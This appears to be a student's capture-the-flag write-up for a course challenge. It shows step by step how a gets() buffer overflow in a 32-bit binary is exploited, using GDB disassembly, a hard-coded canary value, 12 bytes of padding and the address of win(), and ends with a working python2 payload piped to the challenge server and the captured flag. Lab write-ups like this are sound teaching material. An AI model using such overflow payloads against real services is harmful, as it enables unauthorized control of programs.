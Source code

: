 # [buffer overflow magic8ball](https://github.com/li-li-ge/ctf_writeups/blob/main/code/magic8ball)

### nc comp6841.quoccabank.com 5003


* First, use **Binary Ninja** to identify vulnerabilities. We can see the "vuln" function and "win" function. Our goal is to exploit "vuln" to reach "win." Let's break this down into three steps.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true width=50%)
<img src=https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true width=60% />



##### step1 How to create a buffer overflow, and how many bytes are required for the overflow?
* Initially attempted to use GDB to determine this. It seems that the buffer size is at -0x2c(%ebp), which means it is 44bytes above the %ebp.

	~~~
   0x0804871a <+130>:    lea    -0x2c(%ebp),%eax

   0x0804871d <+133>:    push   %eax

   0x0804871e <+134>:    call   0x8048450 <gets@plt>
	~~~

* Given that "fortune1" is pushed onto the stack frame before, it takes up 12 bytes above %ebp. Therefore, the "buf" should be 32 bytes. Please correct me if I am mistaken.

 	~~~
   0x080486d3 <+59>:    mov    $0x804a040,%eax

   0x080486d9 <+65>:    mov    (%eax),%eax

   0x080486db <+67>:    mov    %eax,-0xc(%ebp)

   0x080486de <+70>:    sub    $0x8,%esp

   0x080486e1 <+73>:    push   -0xc(%ebp)
	~~~

#### step 2 How to ensure that "fortune1" remains equal to "fortune"?
* first lets try to check if get buffer overflowed!

	```
	python2 -c 'print "A"*31' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	```

	* let's make it to buffer overflow
	
	``` 
	python2 -c 'print "A"*32' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	the sands of time have changed!!

 	```

* Attempted to debug and found the address to be 0xf0470770, which in decimal is 4031186800. oh. its the fortune.

* Add two breakpoints at the gets the address and the next instruction.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball3.png?raw=true)


* run the test which is "A"*32  or "A" * 33 to check which value be changed, then I found the exactly value is 0xf0470770.

 ![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball4.png?raw=true)

**milestone: finally skipped canary**

	
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" ' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	
	

#### step 3 How to return to the "win" address?

* get the "win" address which is 0x080485e6 by objdump

	```
	objdump -d magic8ball | grep win

	080485e6 <win>:

	804863c:    75 19                    jne    8048657 <win+0x71>

	8048655:    eb 3c                    jmp    8048693 <win+0xad>
	```

* added into our payload but still not returned to the win fun.

	~~~
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" +  "\xe6\x85\x04\x08" ' | 	nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	~~~

 

* It seemed that some bytes needed to be added between the canary and the return address in "vuln." So, I decided to try a **brute-force** approach to determine the number of bytes required. It turned out that 12 bytes were needed to successfully reach the "win" address.

	```
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" + "B"*12 + "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz

	Ive changed your fortune.

	Now your fortune is to go to jail.

	```

	```
	COMP6841{SOMEWHAT_OF_A_BIRD_WATCHER}
	```

 

 

 

